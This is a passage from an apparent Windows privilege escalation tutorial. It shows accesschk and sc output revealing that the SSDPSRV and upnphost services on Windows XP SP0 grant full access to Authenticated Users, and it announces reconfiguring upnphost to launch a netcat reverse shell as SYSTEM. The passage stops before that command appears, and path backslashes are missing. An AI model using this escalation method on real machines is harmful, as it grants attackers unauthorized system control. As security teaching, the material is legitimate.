 Lets compare the output on Windows 8 and on Windows XP SP0.

    **# This is on Windows 8.**

    C:Usersb33ftoolsSysinternals> accesschk.exe -uwcqv "Authenticated Users" *
    No matching objects found.

    **# On a default Windows XP SP0 we can see there is a pretty big security fail.**

    C:> accesschk.exe -uwcqv "Authenticated Users" *
    RW SSDPSRV
            SERVICE_ALL_ACCESS
    RW upnphost
            SERVICE_ALL_ACCESS

    C:> accesschk.exe -ucqv SSDPSRV

    SSDPSRV

      RW NT AUTHORITYSYSTEM
            SERVICE_ALL_ACCESS
      RW BUILTINAdministrators
            SERVICE_ALL_ACCESS
      RW NT AUTHORITYAuthenticated Users
            SERVICE_ALL_ACCESS
      RW BUILTINPower Users
            SERVICE_ALL_ACCESS
      RW NT AUTHORITYLOCAL SERVICE
            SERVICE_ALL_ACCESS

    C:> accesschk.exe -ucqv upnphost

    upnphost

      RW NT AUTHORITYSYSTEM
            SERVICE_ALL_ACCESS
      RW BUILTINAdministrators
            SERVICE_ALL_ACCESS
      RW NT AUTHORITYAuthenticated Users
            SERVICE_ALL_ACCESS
      RW BUILTINPower Users
            SERVICE_ALL_ACCESS
      RW NT AUTHORITYLOCAL SERVICE
            SERVICE_ALL_ACCESS

This issue was later resolved with the introduction of XP SP2, however on SP0&SP1; it can be used as a universal local privilege escalation vulnerability. By reconfiguring the service we can let it run any binary of our choosing with SYSTEM level privileges.

Let's have a look how this is done in practise. In this case the service will execute netcat and open a reverse shell with SYSTEM level privileges. Other options are certainly possible.

    C:> sc qc upnphost

    [SC] GetServiceConfig SUCCESS

    SERVICE_NAME: upnphost
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 3   DEMAND_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:WINDOWSSystem32svchost.exe -k LocalService
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Universal Plug and Play Device Host
            DEPENDENCIES       : SSDPSRV
            SERVICE_START_NAME : NT AUTHORITYLocalService
